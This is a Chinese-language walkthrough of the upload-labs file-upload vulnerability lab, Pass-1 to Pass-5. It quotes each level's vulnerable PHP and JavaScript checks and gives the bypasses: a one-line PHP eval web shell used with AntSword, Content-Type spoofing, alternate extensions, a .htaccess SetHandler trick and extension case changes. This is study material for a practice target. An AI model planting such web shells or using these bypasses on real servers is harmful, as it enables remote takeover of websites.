


# 文件上传漏洞
web 应用对用户上传的文件处理不当，导致攻击者可以上传可执行脚本，并在服务器执行，从而控制网站或服务器。  

使用 [c0ny1/upload-labs](https://github.com/c0ny1/upload-labs) 的文件上传靶机。  

## c0ny1/upload-labs
### Pass-1
查看源码发现检查文件使用的是前端 js：  
```html
<script type="text/javascript">
    function checkFile() {
        var file = document.getElementsByName('upload_file')[0].value;
        if (file == null || file == "") {
            alert("请选择要上传的文件!");
            return false;
        }
        //定义允许上传的文件类型
        var allow_ext = ".jpg|.png|.gif";
        //提取上传文件的类型
        var ext_name = file.substring(file.lastIndexOf("."));
        //判断上传文件类型是否允许上传
        if (allow_ext.indexOf(ext_name) == -1) {
            var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
            alert(errMsg);
            return false;
        }
    }
</script>
```

禁用前端就能上传了，或者用 burpsuite 抓包改写文件名即可。  

传一行 php payload：
``` php
<?php @eval($_REQUEST["shell"]); ?>
```

通过 `eval()` 函数借助 shell 参数直接可以任意执行 php 代码。用 AntSword 就可以达到远程控制。  

burpsuite 在点击上传前中断抓包，修改 .png 为 .php 然后该 payload 就保存到 upload 内，接下来就是 AntSword 连接。  



修改完点击 Forward 就相当于劫持上传文件名变成 php。这样在浏览器开发者模式中就可以看到 upload 文件夹内有 shell.php：  



比如我这的链接是：  
```
http://192.168.122.16/upload/shell.php
```

打开 AntSword 添加，密码就填 shell 就行，实际就是传参的变量。这样就远程控制了。  

### Pass-2
查看源码：
``` php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
    }
}
```

仅作文件类型的 mime 判断，也就是在 http 头限制。  
``` php
if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
```

将 `Content-Type` 改成 `image/jpeg` 之类的上传即可。位置一样。  
``` html
Content-Type: application/x-php
```

### Pass-3
这关过滤了 .asp,.aspx,.php,.jsp后缀文件，而且做了文件名的修改。  
``` php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

这道题直接上传其他 php 可执行后缀即可，比如 `.php5` 不过要修改 apache 的配置。用 vscode 的 docker 插件打开容器找到 `/etc/apache2/apache2.conf` 添加下面一行：  
``` conf
AddType application/x-httpd-php .php .phtml .phps .php5 .pht
```

直接上传后对图片右键复制链接给 AntSword 即可。   

## Pass-4
这里过滤面更大，基本上都给过滤掉了……  
``` php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2","php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2","pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传!';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

所以要上传 `.htaccess` 配置文件来修改 Apache 服务器配置命令。   
创建 `.htaccess` 写上：  
```.htaccess
<FilesMatch "1.png">
SetHandler application/x-httpd-php
</FilesMatch>
```

要修改 apache 配置文件：  
``` conf
<Directory />
	Options FollowSymLinks
	AllowOverride All
	Require all granted
</Directory>
```

这样把 1.png 直接按 php 文件执行，然后再把 php 文件修改为 1.png 就绕过检查，拿 AntSword 直接进 web shell。  
这种方法在网页对上传文件重命名的时候无法使用。  

### Pass-5
``` php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

没改大小写，直接大写 PHP 直接过。  
